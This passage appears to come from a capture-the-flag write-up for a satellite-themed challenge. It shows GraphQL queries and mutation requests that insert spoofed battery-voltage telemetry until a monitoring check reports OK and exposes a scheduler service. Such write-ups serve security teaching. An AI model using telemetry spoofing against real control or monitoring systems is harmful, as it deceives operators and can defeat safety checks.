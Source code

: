 ```
# Response
{
  "data": {
    "telemetry": [
      {
        "timestamp": 1590626561.688964,
        "subsystem": "eps",
        "parameter": "VIDIODE",
        "value": "6.473900264"
      },
      {
        "timestamp": 1590626524.318617,
        "subsystem": "eps",
        "parameter": "VIDIODE",
        "value": "6.47"
      },
      ...
```

Ok, so VIDIODE exists as a telemetry value and is around 6.5v. Let's try inserting a new telemetry entry and spoof a different voltage level: 

```
# Request
mutation {
  insert(subsystem: "eps", parameter: "VIDIODE", value: "40") {
    success, errors
  }
}
```

Looking at the output of the challenge, we can see the VIDIODE log has changed!

```
critical-tel-check  warn: VIDIODE battery voltage too high.
```

Oops... too high... let's do something more reasonable. After some trial and error we came up with:

```
# Request
mutation {
  insert(subsystem: "eps", parameter: "VIDIODE", value: "8") {
    success, errors
  }
}
```

```
critical-tel-check  info: eps telemetry check.
critical-tel-check  warn: Solar panel voltage low
critical-tel-check  info: eps subsystem: OK
critical-tel-check  info: Position: GROUNDPOINT
critical-tel-check  warn: System: OK. Resuming normal operations.
critical-tel-check  info: Scheduler service comms started successfully at: 13.58.29.49:21077/sch/graphiql
```
